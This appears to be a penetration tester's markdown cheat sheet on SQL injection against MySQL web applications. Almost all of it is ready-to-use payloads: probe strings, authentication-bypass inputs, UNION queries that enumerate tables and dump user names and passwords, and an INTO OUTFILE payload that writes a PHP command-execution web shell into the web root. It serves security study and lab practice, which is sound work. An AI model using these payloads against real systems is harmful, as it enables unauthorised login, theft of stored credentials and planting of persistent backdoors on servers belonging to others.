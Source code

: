 # SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration
The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```
You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:
```
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```
Get the current user:
```
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```
See all tables:
```
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```
Get column names for a specified table: 
```
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```
Get usernames and passwords (0x3a means `:`):
```
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```
You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root: 
```
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
I suspect you could inject a full reverse shell in there too...

## POST parameters
You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## SQLmap

To-do

## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)

